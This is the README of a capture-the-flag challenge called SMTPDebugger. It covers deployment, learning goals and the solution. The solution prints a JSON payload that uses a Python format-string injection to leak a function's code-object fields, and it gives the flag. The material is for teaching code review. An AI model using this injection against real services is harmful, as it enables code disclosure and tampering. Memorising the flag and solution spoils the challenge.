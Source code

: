 # StuckOverflow
**[AppSec Village CTF Task Fight 2020]** SMTPDebugger

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
Company created a Debugger APP for SMTP.  
The mission is to get the flag by reviewing the vulnerable part of the application and calling the function **get_flag**.

### Challenge Design
The challenge components are:  
* load-balancer (Nginx Load Balancer)  
* challenge (Socat - Forked Python Process)  

![Challenge Diagram](resources/img/diagram.png)

### Challenge Purpose
* Code Review  
* Lear how dangerous of python string formats are  
* Learn how to recreate python code remotely using code objects  

### Challenge Deployment
1) Deploy the app: docker-compose up --build -d
2) For Scaling: docker-compose scale challenge=3

### Challenge Solution
1) Execute solution.py (tested with python3)
   ```bash
   python solution.py -s {HOST} -p {PORT}
   ```
   * Example: `python solution.py -s localhost.realgame.co.il -p 3780`
2) You got the flag: **CTF{F0rmat_plus_C0d3_Obj3ct_Equ4l5_Flag}**

The exploit send this JSON to the server:  
```javascript
{"from_addr": "from@addr.com", "to_addrs": "to@addr.com", "subject": "subject", "message": "co_argcount={email.get_flag.__code__.co_argcount};co_cellvars={email.get_flag.__code__.co_cellvars};co_code={email.get_flag.__code__.co_code};co_consts={email.get_flag.__code__.co_consts};co_filename='{email.get_flag.__code__.co_filename}';co_firstlineno={email.get_flag.__code__.co_firstlineno};co_flags={email.get_flag.__code__.co_flags};co_freevars={email.get_flag.__code__.co_freevars};co_kwonlyargcount={email.get_flag.__code__.co_kwonlyargcount};co_lnotab={email.get_flag.__code__.co_lnotab};co_name='{email.get_flag.__code__.co_name}';co_names={email.get_flag.__code__.co_names};co_nlocals={email.get_flag.__code__.co_nlocals};co_stacksize={email.get_flag.__code__.co_stacksize};co_varnames={email.get_flag.__code__.co_varnames};"}
```
In response it will get a the whole SMTP message, the message body will contain all the arguments of the code object...  
With those arguments it will create code object and replace the code of the current **get_flag** function.  

### Notes
Do not forget to upload **SMTPDebugger.py** to CTFd, it's the same as challenge but without the flag...  
